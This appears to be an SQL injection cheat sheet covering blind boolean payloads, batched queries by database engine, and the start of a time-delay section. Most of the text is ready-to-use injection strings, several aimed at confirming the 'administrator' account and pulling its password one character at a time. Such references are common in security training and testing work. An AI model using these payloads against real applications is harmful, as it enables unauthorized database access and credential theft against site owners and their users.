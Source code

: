 `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

`' AND (SELECT 'x' FROM [tabella] LIMIT 1)='x`
Substring - for each entry in Table [tabella] output an 'x'  and if it equal to 'x' then it means that the table exists in the database.
Since the table may contain more than one entry, the query limits the output to the first row only.

`' AND (SELECT username FROM users WHERE username='administrator')='administrator'--`
Check whether the username 'administrator' exists in the database

`' AND (SELECT username FROM users WHERE username='administrator' and LENGTH(password)>1)='administrator'--`
Check user's password length. Increase the integer value.

`' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='administrator')='a'--`
Check if character as position INDEX is equal to 'CHAR'

BINARY to get case-sensitive query/response  
`' AND (SELECT SUBSTRING(BINARY password, 1, 1) FROM users WHERE username='administrator')='a'--`

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle

`Does not support batched queries.`

Microsoft

`QUERY-1-HERE; QUERY-2-HERE`

PostgreSQL

`QUERY-1-HERE; QUERY-2-HERE`

MySQL

`QUERY-1-HERE; QUERY-2-HERE`

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle

`dbms_pipe.receive_message(('a'),10)`

